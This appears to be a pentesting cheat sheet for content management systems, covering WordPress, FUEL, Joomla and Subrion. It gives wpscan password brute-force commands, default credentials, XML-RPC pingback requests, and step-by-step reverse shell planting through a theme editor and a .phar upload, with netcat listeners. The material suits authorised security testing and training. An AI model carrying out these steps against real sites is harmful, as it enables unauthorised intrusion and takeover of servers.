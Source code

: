 ```yaml
---
title: CMS Pentesting
desc: Pentesting for the CMS used in the Web Applications. WordPress.
tags: [CMS, Cmseek, FUEL, Subrion, Web, WordPress]
alts: []
render_with_liquid: false
---
```


## CMS Detection

If you don't know which CMS used in the target website, you need to detect which CMS is used in the web page.  
**[Cmseek](https://github.com/Tuhinshubhra/CMSeeK){:target="_blank"}** is an auto detection tool.

```sh
cmseek -u vulnerable.com
```

<br />

## WordPress Pentesting

- **Automation**

    **[Wpscan](https://github.com/wpscanteam/wpscan){:target="_blank"}** is a WordPress security scanner which can brute force credentials.

    ```sh
    # --rua: random user agent
    # --http-auth username:password
    # -e: enumerate
    #  ap: All plugins
    #  at: All themes
    #  tt: Timthumbs
    #  cb: Config backups
    #  dbe: Db exports
    #  u: User IDs range
    #  m: Media IDs range
    wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

    # Specifify username (-U)
    wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
    ```

- **Find Common Directories**

    ```sh
    /author/admin/
    /index.php/author/admin/
    /license.txt
    /readme.html
    /wp-admin/
    /wp-admin/upload.php

    # Private/Draft Posts (WordPress <= 5.2.3) 
    /?static=1
    ```

- **Try to Login with Default Credential**

    Access to **/wp-login.php** and use the default credential in the login form.

    ```
    admin:password
    ```

- **PHP Reverse Shell Injection**

    It's required the **"admin" credentials.**

    ```
    1. Access to dashboard (/wp-admin/).
    2. Move to "Appearance" and select theme named "Twenty Seventeen".
    3. Click "Theme Editor" or "Editor" in the "Appearance" section.
    4. In the theme editor, click "404 Template (404.php)" on the right.
    5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
    6. Edit "IP" and "Port" in the code.
    7. In your terminal, run 'nc -lvnp <IP>'.
    8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
    ```

- **XML-RPC (xmlrpc.php)**

    - **Get All Methods**

        ```xml
        POST /xmlrpc.php HTTP/1.1
        Host: vulnerable.com
        ...

        <?xml version="1.0" encoding="utf-8"?> 
        <methodCall> 
        <methodName>system.listMethods</methodName> 
        <params></params> 
        </methodCall>
        ```

    - **Ping Back**

        Use **[PostBin](https://www.toptal.com/developers/postbin/){:target="_blank"}** to confirm the results.

        ```xml
        POST /xmlrpc.php HTTP/1.1
        Host: vulnerable.com
        ...

        <?xml version="1.0" encoding="utf-8"?>
        <methodCall>
        <methodName>pingback.ping</methodName>
        <params>
        <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
        <param><value><string>http://vulnerable.com</string></value></param>
        </params>
        </methodCall>
        ```

<br />

## FUEL CMS Pentesting

- **Default Credential**

    ```
    admin:admin
    ```

<br />

## Joomla Pentesting

- **Default Credentials**

    The default username is **"admin"** and no password.

- **Interesting Files**

    ```
    /administrator/manifests/files/joomla.xml
    /language/en-GB/en-GB.xml
    ```

<br />

## Subrion CMS Pentesting

- **File Upload to Reverse Shell**

    It is login required.

    1. **Download Reverse Shell Payload**

        Get the PHP payload from [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.  
        And change the file extension to **'.phar'**.  
        Then open listener.

        ```sh
        nc -lvnp 4444
        ```

    2. **Upload the Payload in Subrion Panel**

        1. **Login**

        2. **Move to Content -> Uploads in Panel**

        3. **Upload reverse-shell.phar**

        4. **Access to /subrion/upload/reverse-shell.phar**

        Now you get a shell.